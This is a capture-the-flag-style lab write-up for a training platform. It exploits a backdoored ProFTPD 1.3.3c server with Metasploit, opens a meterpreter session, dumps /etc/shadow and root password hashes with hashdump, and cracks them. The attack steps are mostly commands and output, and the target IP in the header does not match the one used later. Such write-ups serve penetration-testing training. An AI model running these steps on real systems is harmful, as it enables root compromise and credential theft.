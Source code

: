 # 🔬Hashes Dumping

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Password Cracker: Linux](https://attackdefense.com/challengedetails?cid=1776)
>
> * Target IP: `192.75.64.3`
> * **Password Hashes** dumping - `/etc/shadow`

### Enumeration

```bash
nmap -sV 192.87.153.3
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-07-22 03:52 UTC
Nmap scan report for target-1 (192.87.153.3)
Host is up (0.0000090s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
MAC Address: 02:42:C0:57:99:03 (Unknown)
Service Info: OS: Unix
```

* &#x20;A proftpd 1.3.3c server is discovered running on the target machine. Run nmap vuln script to identify the vulnerability.

```bash
nmap -sV --script vuln -p 21 192.87.153.3
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.
|   Command: id
|_  Results: uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
|_sslv2-drown: 
MAC Address: 02:42:C0:57:99:03 (Unknown)
Service Info: OS: Unix
```

> The target proftpd installation has been running a backdoored vers&#x20;

```bash
searchsploit proftpd 1.3.3
```

<figure><img src="../../../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation

```bash
service postgresql start && msfconsole -q
msf5 > search proftpd
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Start a metasploit framework and exploit proftpd server using `exploit/unix/ftp/proftpd_133c_backdoor` module.

```bash
msf5 > setg RHOSTS 192.87.153.3
msf5 > use exploit/unix/ftp/proftpd_133c_backdoor
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Upgrade the sessions to a `meterpreter` session

```bash
# background the session with CTRL+Z
sessions -u 1
sessions # check available sessions
sessions 2
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > sysinfo
meterpreter > getuid
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Hashes Dumping <a href="#hashes-dumping" id="hashes-dumping"></a>

```bash
meterpreter > cat /etc/shadow
    root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:18348:0:99999:7:::
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Gather Linux Password hashes with `Metasploit`

```bash
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > search hashdump
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > use post/linux/gather/hashdump
msf5 post(linux/gather/hashdump) > options
msf5 post(linux/gather/hashdump) > sessions 
msf5 post(linux/gather/hashdump) > set SESSION 2
msf5 post(linux/gather/hashdump) > run
```

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
[+] root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20240722041512_default_192.87.153.3_linux.hashes_562294.txt
[*] Post module execution completed
```

* The _unshadowed password file_ is a file containing the format hashed password, ready to be cracked.

### Crack the Hash <a href="#crack-the-hash" id="crack-the-hash"></a>

```bash
search crack
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `password`
{% endhint %}
